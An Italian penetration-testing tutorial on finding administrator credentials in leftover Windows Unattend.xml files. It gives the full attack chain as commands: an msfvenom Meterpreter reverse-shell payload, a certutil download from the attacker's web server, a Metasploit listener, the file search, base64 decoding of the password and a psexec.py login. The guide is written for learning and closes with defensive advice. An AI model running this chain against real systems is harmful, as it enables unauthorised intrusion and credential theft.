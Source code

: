 # Ricerca di credenziali nei file Unattended di Windows

In ambienti enterprise, Windows consente di automatizzare molte operazioni ripetitive tramite strumenti come l’**installazione automatica**. Questa modalità viene spesso utilizzata per implementare Windows su molte macchine contemporaneamente o per configurare intere infrastrutture aziendali con impostazioni predefinite. Per farlo, Windows si serve di file XML contenenti tutti i parametri di configurazione.

Questi file, chiamati tipicamente `Unattend.xml` o `Autounattend.xml`, contengono al loro interno molte informazioni sensibili, inclusi i **nomi utente e le password** (in forma codificata) per gli account amministrativi. Il problema nasce quando questi file non vengono eliminati automaticamente dopo il completamento dell’installazione: in tal caso, possono rappresentare un’importante **fonte di credenziali** per un attaccante.

I percorsi comuni dove questi file vengono salvati sono:

- `C:\\Windows\\Panther\\Unattend.xml`
- `C:\\Windows\\Panther\\Autounattend.xml`

> Il percorso può variare a seconda della versione di Windows.

---

## 1 – Accesso iniziale alla macchina target

Non è necessario disporre di privilegi amministrativi per cercare questi file. È sufficiente ottenere una sessione di Meterpreter tramite una **reverse shell**.  
Per iniziare, si genera un payload con `msfvenom` specificando architettura e tipo di connessione:

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IPKali> LPORT=<KaliPORT> -f exe > payload.exe` <br>
generando un payload eseguibile per Windows 64-bit. <br>

Per distribuire il payload, si può usare un semplice web server Python nella directory corrente:

`python -m SimpleHTTPServer 80` ⟶ condivide in HTTP tutti i file presenti nella directory corrente (per Python 2.x). <br>

---

## 2 – Trasferimento del payload alla macchina target

Dalla macchina target, è possibile scaricare il file malevolo ospitato sul web server Kali tramite il comando:

`certutil -urlcache -f http://<IPKali>/payload.exe payload.exe` ⟶ scarica il payload tramite HTTP e lo salva in locale. <br>

> `certutil` è uno strumento nativo di Windows, spesso disponibile anche su sistemi con restrizioni limitate.

---

## 3 – Avvio del listener e ottenimento della sessione

Dalla macchina di attacco si avvia `msfconsole` e si imposta un **multi/handler**:

`use multi/handler` ⟶ carica il listener per la reverse shell. <br>
`set payload windows/x64/meterpreter/reverse_tcp` ⟶ specifica il payload. <br>
`set LHOST <IPKali>` ⟶ IP Kali. <br>
`set LPORT <KaliPORT>` ⟶ porta in ascolto specificata su msfvenom. <br>
`run` ⟶ avvia il listener. <br>

Mentre il listener é attivo, possiamo eseguire il payload precedentemente generato per aprire una reverse shell.

---

## 4 – Ricerca dei file di configurazione

Una volta ottenuta la sessione, ci si sposta nella radice del file system:

`cd C:\\` ⟶ cambia directory alla radice del disco. <br>
`search -f Unattend.xml` ⟶ cerca in tutto il file system i file con quel nome. <br>

Quando viene individuato il file:

`download Unattend.xml` ⟶ scarica il file sulla macchina attaccante. <br>

---

## 5 – Estrazione e decodifica della password

Una volta scaricato il file, è possibile aprirlo per esaminarne il contenuto:

`cat Unattend.xml` ⟶ visualizza il contenuto XML. <br>

La sezione di interesse è simile a questa:
```
<AutoLogon> 
  <Password> 
    <Value>UGFzc3dvcmREaVNpY3VyaXphdGE=</Value> 
    <PlainText>false</PlainText> 
  </Password> 
  <Enabled>true</Enabled> 
  <Username>administrator</Username> </AutoLogon>
```
In questo esempio, la password è codificata in Base64. Per decodificarla:

Copiare il valore tra i tag `<Value>` in un file .txt <br>
per poi successivamente decifrare la password (criptata in base 64) con il comando: <br>
`base64 -d file.txt` <br>
per ottenere la password in chiaro.

## 6 – Accesso con credenziali ottenute
Una volta decodificata la password, possiamo usarla per autenticarsi con psexec.py da Impacket:

`psexec.py <username>@<IP>`⟶ avvia una sessione remota autenticata. <br>

Verrà richiesta la password e dovremmo quindi inserire quella ottenuta dalla decodifica.

Questo metodo consente di ottenere un accesso completo e legittimo con l’account amministrativo, senza dover bypassare controlli ulteriori.

## Conclusione
La presenza di file Unattend.xml o Autounattend.xml con credenziali codificate rappresenta una minaccia reale in infrastrutture poco gestite. È fondamentale per le aziende eliminare questi file al termine dell’installazione automatica per non esporre l’intero dominio a rischi di compromissione.

